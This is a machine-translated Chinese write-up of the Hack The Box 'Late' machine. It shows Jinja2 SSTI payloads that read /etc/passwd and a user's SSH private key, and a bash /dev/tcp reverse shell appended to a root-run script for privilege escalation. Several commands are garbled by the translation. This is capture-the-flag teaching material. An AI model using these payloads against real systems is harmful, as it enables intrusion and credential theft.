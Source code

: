 # 后期黑盒子写的

> 原文：<https://infosecwriteups.com/late-hack-the-box-writeup-46abc5ff5237?source=collection_archive---------2----------------------->

![](img/e701fc517ba24c676194967837a2dba7.png)

嘿，伙计们，欢迎来到我的博客。今天我们将讨论一下**晚期黑盒子**机器。这是一个非常有趣的机器，它通过 **SSTI 注入**和**普通权限提升**来获得 root 访问权限。

你会认为这是最简单的机器，但事实是，与其他机器相比，这是最难的机器。通过这台机器你会学到很多东西。

1.  列举
2.  添加子域
3.  获取用户外壳访问权限
4.  权限提升
5.  获取根外壳

# 列举

像往常一样，我们从 nmap 扫描开始

> 第一步: nmap -sC -sV 10.10.11.156

![](img/457df16e8eee73c065072398ef0de38d.png)

在这里，正常端口被打开

让我们看看那个网页是什么 [http://10.10.11.156](http://10.10.11.156)

![](img/5831b96878ecb5f3688ffc77fd60813a.png)

进一步审查源代码，我发现了子域。

![](img/f8bc35d874ae81dd6dbd0ec155f9717d.png)

# 添加子域

所以将这个子域添加到 */etc/hosts* 文件中

> **第二步:**image . late . htb late . htb>>/etc/hosts

![](img/5268b6a31c26710d052148cabae0a2fe.png)

现在你可以访问 *image.late.htb*

![](img/2807c510362983330870697f9384ce1c.png)

首先，我试图上传图像中的反向外壳，但它没有工作。所以过了很长时间，我发现这个网页把图片转换成了文本文件，结果，它只是在

标签中打印了一些东西，并且去掉了一些特殊字符(_，)。不正常的事情

因此，我尝试了简单的 SSTI 注射{{7*7}}，你需要将这个文本文件转换成图像，你可以在你的电脑上截图或使用以下网站

 [## TXT 到 JPG(在线和免费)-兑换

### 转换为 TXT TXT 是一种包含文本的文件格式，按行组织。文本文件与包含…

convertio.co](https://convertio.co/txt-jpg/) ![](img/00d4a4a6755cd21b49293509374c09a1.png)

结果，你得到的答案是 49，所以我发现这是受 *SSTI 注射*的影响。

![](img/3a24fc94de8849e8ee8a786eedf7b4d5.png)

阅读下面这篇文章，获得更多的想法

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) [## SSTI(服务器端模板注入)

### 模板引擎被设计成通过将固定模板与易变数据相结合来生成网页。服务器端…

book.hacktricks.xyz](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) 

此外，我尝试了很多方法来利用这一点，但我卡住了。

所以处理这一部分要非常小心，因为在这一部分你需要耐心，不要放弃努力，尽你最大的努力。

你可以使用下面的 GitHub 作为有效载荷

Jinja2 —写入远程文件

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md) [## PayloadsAllTheThings/README.md 位于主 swisskyrepo/payloads all the things

### 关于 Web 应用程序安全性和 Pentest/CTF-payloads all the things/readme . MD 的有用负载和旁路列表，请访问…

github.com](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md) 

通过使用这个有效负载，我们将获得该机器中的/etc/passwd 文件

```
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read() }}
```

![](img/ed4b6603a50f0123b06052d302e98d7f.png)

现在，您将在结果文件中获得密码列表。

![](img/33cd90d099f4276b3b6a2a6ea9506667.png)

您可以看到 1000 个组中的系统用户

```
{{ get_flashed_messages.__globals__.__builtins__.open("/home/svc_acc/.ssh/id_rsa").read() }}
```

呼呼！！！！

现在您将获得 id_rsa 文件，我们可以使用它通过 ssh 登录

![](img/54438efb975273632d3bc97b6afd2b95.png)

并从文件中删除

> **第三步:** chmod 600 id_rsa

# **获取用户外壳访问权限**

> **第三步:**ssh-I id _ RSA SVC _ ACC @ 10 . 10 . 11 . 156

![](img/a90b13870f3f781d7473a3074f9f6b49.png)

Boooooooooooooommmmmm！！！！！

现在您得到了 userflag，它是 user.txt

> **第四步**:猫 user.txt

![](img/62244c7d6b375b1109740357f8ab9b72.png)

# 权限提升

接下来，我们将通过使用 [linpeas.sh](https://github.com/Cerbersec/scripts/blob/master/linux/linpeas.sh) 得到一个根 shell

![](img/db7ed84dd2e2aeaf3fbc6db38d31c49d.png)

进一步分析该报告，我发现其中一个根文件具有写权限，即/usr/local/sbin/ssh-alert.sh

![](img/0ef27999554c1d6611c8aa9f95d04879.png)

在这个文件中，用户可以写任何东西，它也有根权限。因此，我们将在该文件中编写一个反向 shell

我试图用 nano 工具写一个反向 shell，但是这个操作在那个文件中是不允许的。

![](img/03eb516b4974ff2c6028739fe9f41c5e.png)

所以尝试了另一种方法，即追加两个文件

首先，我们将在一个文件中创建反向 shell

```
bash -i >& /dev/tcp/10.10.11.15/4242 0>&1
```

在本地机器上设置监听器

> 第五步: nc -lvp 4242

接下来，将这个文件附加到 ssh-alert.sh。

> **第六步:**cat/tmp/nep . txt>>/usr/local/sbin/ssh-alert . sh

![](img/084b50a60c816af8ff3e0d0e8b878c3d.png)

现在，切断您的 ssh 连接并再次登录，通过 ssh 连接，您将在 netcat 中获得反向 shell。

![](img/e65e8d0da6a2824690a1c7f454308ca6.png)

Boooooooooommmmmmm！！！！

现在你可以看到根标志

> **第七步:**猫根. txt

![](img/835b739447837e95a6a8ce0ace746557.png)

谢谢你卡维吉汉。

这是一台神奇的机器 [kavigihan](https://app.hackthebox.com/users/badges/389926) 我玩它是因为我通过它学到了很多东西，最重要的是要有耐心。

我希望你能理解这篇文章，如果你喜欢，请支持我

OWSP 学生

[![](img/802454acdeaf403cf283fca52b1d0f22.png)](https://www.buymeacoffee.com/0xevilox)![](img/d4370d3fca94842c30fb57222c0efd6d.png)